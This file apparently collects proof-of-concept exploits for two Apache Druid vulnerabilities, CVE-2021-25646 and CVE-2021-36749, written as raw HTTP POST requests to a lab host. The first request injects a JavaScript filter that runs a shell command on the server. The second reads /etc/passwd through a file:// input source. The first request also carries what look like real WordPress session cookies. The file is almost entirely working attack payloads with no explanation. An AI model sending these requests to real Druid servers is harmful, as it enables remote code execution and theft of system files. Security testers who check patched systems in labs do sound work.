 # CVE-2021-25646

<pre>
POST /druid/indexer/v1/sampler HTTP/1.1
Host: 192.168.1.3:8888
Content-Length: 591
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.232 Whale/2.10.124.26 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.1.3:8888
Referer: http://192.168.1.3:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=200c35f831f1399dac0d25dc01e005cb; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_e63617fb709aee34babc557e8a1e8f07=0ppr2s%7C1634781054%7ComN8NbaYZx7mX3wLRSL9twQC4gvGtUd7GCTRRU0v0jR%7Cbb08b324b8de1d190bd434deb07224f10bf123126c9a70ffcc51d708dcdb649d; wp-settings-time-1=1634608873
Connection: close

{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript", "function":"function(value){return java.lang.Runtime.getRuntime().exec('touch /tmp/hacked!!.txt')}", "dimension":"added"}}}},"samplerConfig":{"numRows":500,"cacheKey":"73a90acaae2b1ccc0e969709665bc62f"}}
</pre>

# CVE-2021-36749
<pre>
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 192.168.1.3:8888
Content-Length: 423
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.232 Whale/2.10.124.26 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.1.3:8888
Referer: http://192.168.1.3:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: wp-settings-time-1=1634608873
Connection: close

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
<pre>